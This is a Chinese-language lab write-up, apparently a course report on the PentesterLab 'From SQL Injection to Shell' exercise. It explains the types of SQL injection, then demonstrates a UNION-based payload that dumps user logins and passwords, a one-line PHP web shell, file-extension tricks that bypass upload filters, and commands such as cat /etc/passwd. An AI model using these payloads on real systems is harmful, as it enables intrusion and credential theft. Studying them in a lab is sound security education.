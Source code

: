 # From SQL Injection to Shell #
## SQL Injection 产生原因 ##
- 太过于信任用户所输入的数据，未限制输入的字符数，未对用户输入的数据做潜在指令的检查。当用户输入的数据包含SQL代码时，该SQL代码在服务端脚本的执行过程中被带入到数据库引擎当作一段SQL代码执行，就会导致SQL注入。


## SQL Injection 攻击原理 ##
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  
## SQL Injection 攻击分类 ##
1. 按攻击手段分类  

	Piggy-backed Queries  多命令语句攻击  

	Tautologies   恒真命题攻击  

	Alternate Encodings   其他编码攻击  

	Illegal/Logically Incorrect Queries  非法查询攻击  

	Union Query   联合查询攻击  

	Stored Procedures  存储过程的注入攻击  


2. 按获取数据方式  
	**Inband：**  
	Inband技术使用攻击者和有漏洞的Web应用程序之间现有的渠道来提取数据。通常该通道是标准的Web服务器响应。  
	**inference（推理）：**  
	Inference技术中，攻击者通过应用程序表现的差异来推断数据的值。Inference技术能够逐位提取恶意SQL查询结果，却没有真正传输数据。  
	**out-of-band：**  
	Out-of-band(OOB)技术，与inband相反，使用其它传输信道获取数据，例如超文本传输协议和DNS解析协议。



## 基本思路 ##
- 收集web开发的基本信息
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

## 实验环境 ##
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。
- 服务器的网络配置
![](pictures/sql0.PNG)

- 攻击方系统Windows 10


## 存在注入点 ##
![](pictures/sql1.PNG)
![](pictures/sql2.PNG)
## 获取列数 ##
### UNION SELECT ###
- 使用UNION SELECT语句并从1开始增加列数。
- 如果UNION语句连接的两个查询返回的列数不同，数据库会报错。
- 通过这个方法得到列数是4
![](pictures/sql4.PNG)
![](pictures/sql3.PNG)


----------

### ORDER BY ###
- 返回的结果根据ORDER BY语句选择的列进行排序
- ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。
- 通过这个方法可以找到最后一列是4
![](pictures/sql6.PNG)
![](pictures/sql5.PNG)

## Retrieving information ##
- 使用current_user()语句，用来取得 MySQL 当前使用者名称
- 使用version()语句，得到数据库版本号
![](pictures/sql8.PNG)
![](pictures/sql7.PNG)
![](pictures/sql9.PNG)

- 从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里
![](pictures/sql10.PNG)
![](pictures/sql11.PNG)
### 获取用户名和密码 ###

> 1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;

![](pictures/sql12.PNG)
![](pictures/sql13.PNG)

- 登录管理员账号
![](pictures/sql14.PNG)

## 上传webshell和执行代码获取管理员权限 ##
- webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本
- .php.test这将绕过简单的.php过滤器，但Apache仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。
- .PHP3这将绕过简单的.php过滤器

```php
<?php
  system($_GET['cmd']);
?>
```

- 上传webshell

![](pictures/sql15.PNG)

- 查看页面源代码获取图片的链接

![](pictures/sql16.PNG)

- cmd=uname
- 显示当前操作系统名称

![](pictures/sql17.PNG)

- uname -a
- 显示当前计算机和操作系统的名称、版本及其他细节

![](pictures/sql19.PNG)

- cat /etc/passwd 
- 用户的关键信息被存放在系统的/etc/passwd文件中

![](pictures/sql18.PNG)



- ls 来得到当前目录的列表

![](pictures/sql20.PNG)


## 参考资料 ##

- [https://github.com/CUCCS/ns/blob/2016-2/2016-2/zc_snRNA/FlippedClassroom_FromSqlInjectionToShell/From%20SQL%20Injection%20to%20Shell.md](https://github.com/CUCCS/ns/blob/2016-2/2016-2/zc_snRNA/FlippedClassroom_FromSqlInjectionToShell/From%20SQL%20Injection%20to%20Shell.md "https://github.com/CUCCS/ns/blob/2016-2/2016-2/zc_snRNA/FlippedClassroom_FromSqlInjectionToShell/From%20SQL%20Injection%20to%20Shell.md")
- [https://pentesterlab.com/exercises/from_sqli_to_shell/course](https://pentesterlab.com/exercises/from_sqli_to_shell/course "https://pentesterlab.com/exercises/from_sqli_to_shell/course")
